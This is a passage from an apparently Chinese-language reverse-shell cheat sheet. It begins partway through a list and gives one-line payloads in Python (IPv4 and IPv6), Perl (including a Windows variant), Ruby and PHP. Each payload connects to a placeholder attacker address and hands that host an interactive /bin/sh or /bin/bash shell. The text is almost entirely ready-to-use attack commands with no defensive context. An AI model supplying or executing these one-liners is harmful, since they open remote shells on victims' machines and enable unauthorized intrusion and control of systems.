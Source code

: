第二种：

```python
export RHOST="x.x.x.x";export RPORT=port;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

**IPv6协议如下：**

```python
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("xxxx:xxxx:xxxx::xxxx",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

#### 2、Perl

第一种：

```perl
 perl -e 'use Socket;$i="x.x.x.x";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

第二种：

```perl
 perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"x.x.x.x:port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**Win平台下执行：**

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"x.x.x.x:port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

#### 3、Ruby

第一种：

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("x.x.x.x","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

第二种：

```ruby
ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### 4、PHP

第一种：

```php
php -r '$sock=fsockopen("x.x.x.x",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```
